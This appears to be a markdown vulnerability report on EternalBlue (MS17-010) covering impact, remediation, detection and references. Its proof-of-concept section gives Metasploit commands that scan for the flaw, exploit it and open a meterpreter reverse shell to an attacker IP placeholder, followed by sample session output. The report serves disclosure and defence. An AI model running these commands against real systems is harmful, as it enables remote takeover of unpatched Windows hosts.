

# 🔒 Vulnerability Report: EternalBlue (MS17-010)

---

## 🔥 Severity
**Critical**

---

## 🧰 Tool Used
- Nmap (to detect port 445)
- Metasploit Framework
- SMB vulnerability scanner (auxiliary/scanner/smb/smb_ms17_010)

---

## 📜 CVE
- **CVE-2017-0144**

---

## 💥 Impact
EternalBlue exploits a vulnerability in Microsoft’s implementation of the SMBv1 protocol. Successful exploitation allows **remote code execution**, enabling attackers to:
- Gain **SYSTEM-level privileges**
- Deliver ransomware or malware (e.g., **WannaCry**, **NotPetya**)
- Move laterally across networks
- Install backdoors or exfiltrate sensitive data

---

## 🧪 Proof of Concept

### ✅ Prerequisites
- Target: Windows 7/8/10 (pre-patched) or Windows Server 2008/2012 (unpatched)
- Open **TCP port 445**
- SMBv1 enabled

### 🧪 Steps Using Metasploit

1. Start Metasploit:
   ```bash
   msfconsole
   ```

2. Load the EternalBlue scanner:
   ```bash
   use auxiliary/scanner/smb/smb_ms17_010
   set RHOSTS 192.168.x.x
   run
   ```

3. If target is vulnerable, exploit:
   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOSTS 192.168.x.x
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST <Your_Attacker_IP>
   run
   ```

4. On success:
   ```plaintext
   [*] Sending stage (201283 bytes) to 192.168.x.x
   [+] Meterpreter session 1 opened
   meterpreter >
   ```

---
### 🚨 POC 
 

## 🧠 Recommendation

- 🔒 **Disable SMBv1**:
  ```powershell
  Set-SmbServerConfiguration -EnableSMB1Protocol $false
  ```

- 🧱 **Block TCP port 445** on perimeter firewalls

- 🛡️ **Apply Microsoft Patch MS17-010**
  [Download Link](https://www.catalog.update.microsoft.com/Search.aspx?q=KB4013389)

- 📋 Regularly audit SMB services and check for legacy protocols

---

## 📸 Diagram


*Diagram: How EternalBlue exploits SMB to achieve remote code execution*

---

## ✅ Detection

- Monitor logs for:
  - Unusual SMB traffic
  - Event ID 4624 (logon) with SYSTEM access
  - Sysmon Event ID 1: suspicious PowerShell or service creation

---

## ⚠️ References

- [MS17-010 Microsoft Security Bulletin](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)
- [CVE-2017-0144 on NVD](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)
- [EternalBlue - Rapid7 Module](https://docs.rapid7.com/metasploit/exploit-windows-smb-ms17-010-eternalblue)

---
